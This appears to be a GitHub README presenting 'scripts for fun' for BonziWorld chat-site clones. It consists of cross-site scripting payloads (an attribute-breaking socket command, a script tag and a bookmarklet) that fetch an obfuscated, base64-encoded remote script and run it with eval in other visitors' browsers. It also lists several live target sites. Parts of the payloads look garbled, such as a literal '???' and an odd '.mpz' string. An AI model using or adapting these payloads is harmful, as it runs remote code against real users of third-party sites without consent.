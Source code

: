 # ULTIMATE JAVASCRIPT
Scripts for fun
# How to use?
simply go into the websites list and
paste this script<br>
`socket.emit('command', { list: ['youtube', '71Uyt5tTnyg" onload="fetch(atob(\'aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v\')+\'???\'+atob(\'Lmpz\')).then(r=>r.text()).then(t=>eval(t))" u="'] });`<br>
and if you have sanitize off do this<br>
`<script>fetch(atob('aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v')+'???'+atob('Lmpz')).then(r=>r.text()).then(t=>eval(t))</script>`<br>
if you'd like you wanna press it from the bookmark<br>
`javascript:const%20jvnm%20%3D%20prompt%28%22Enter%20script%20name%20%28UPPERCASE%20ONLY%29%3A%22%29%3B%20const%20vidid%20%3D%20prompt%28%22YTVideo%20id%2C%20%28OPTIONAL%29%22%29%3Bsocket.emit%28%27command%27%2C%20%7B%20list%3A%20%5B%27youtube%27%2C%20%60%22%24%7Bvidid%7D%22%20onload%3D%22fetch%28atob%28%27aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v%27%29%29%2Bjvnm%2Batob%28%27.mpz%27%29%29.then%28r%3D%3Er.text%28%29%29.then%28t%3D%3Eeval%28t%29%29%22%20u%3D%22%60%5D%7D%29%3B`
# What are the websites?
https://bonziworld-classic-plus-plus-edition-mlcr.onrender.com<br>
https://bonziworld-revived-1.onrender.com<br>
https://seamusmario-s-bonziworld-revived-2020-qsal.onrender.com<br>
https://bonziworld-revived-2-sll4.onrender.com<br>
https://marginworld.onrender.com<br>
https://bonziworld-revived.zapto.org<br>
https://bonziworldberylicarus.onrender.com
# Now ivorydevrimo, where are you? why did you leave?
[NO RESPONSE]
# What do you think happened when you kept doing it?
[NO RESPONSE]
# You are not joining, what happened?
[NO RESPONSE]
